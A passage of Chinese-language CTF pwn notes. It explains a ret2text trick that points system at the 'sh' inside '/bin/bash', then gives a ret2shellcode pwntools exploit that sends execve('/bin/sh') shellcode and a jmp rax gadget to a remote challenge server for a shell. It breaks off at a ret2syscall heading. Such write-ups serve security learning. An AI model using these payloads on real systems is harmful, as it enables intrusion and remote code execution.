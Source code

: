 /bin/bash也是我第一次见，百度了一下，相当于是管理员权限下的/bin/sh，但是连接靶机是没有bash权限的，所以我们能利用的只有 call system：

```
.text:080485B4                 call    _system
```

然后想办法**把"/bin/sh"作为参数传给system**函数，注意到bash中是有字符‘sh’的，所以我们使用一个断章取义的手段：

```python
#.rodata:08048980 command         db '/bin/bash',0        ; DATA XREF: hackhere+14↑o
#找到/bin/bash字符串位置，+7个字符就是sh的位置
# 0x08048980+7=0x08048987,"sh" in "/bin/bash"
```

#### ret2shellcode

NX保护不开启，查看bss和data段的权限——发现bss和data都可读可写可执行

pwndbg> vmmap LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA 0x400000 0x401000 r-xp 1000 0 /home/giantbranch/Desktop/chall 0x600000 0x601000 r-xp 1000 0 /home/giantbranch/Desktop/chall **0x601000 0x602000** **rwxp** 1000 1000 /home/giantbranch/Desktop/chall

readelf -S chall | grep bss \[26] .bss NOBITS 0000000000**601038** 00001038 readelf -S chall | grep data \[16] .rodata PROGBITS 0000000000400600 00000600 \[25] .data PROGBITS 0000000000**601028** 00001028

```
from pwn import *
context(arch='amd64',os="linux")
context.log_level = 'debug'

#sh=process("./chall")
sh=remote('43.248.98.206',10072)



shellcode=asm('''
mov rdi, 0x68732f6e69622f
push rdi
mov rdi,rsp
mov rsi,0
mov rdx,0
mov rax,0x3b
syscall
''')

jmp_rax=0x0000000000400485 #: jmp rax
payload=shellcode.ljust(0x38,'\x00')+p64(jmp_rax)

sh.sendline(payload)

sh.interactive()
```

#### ret2syscall

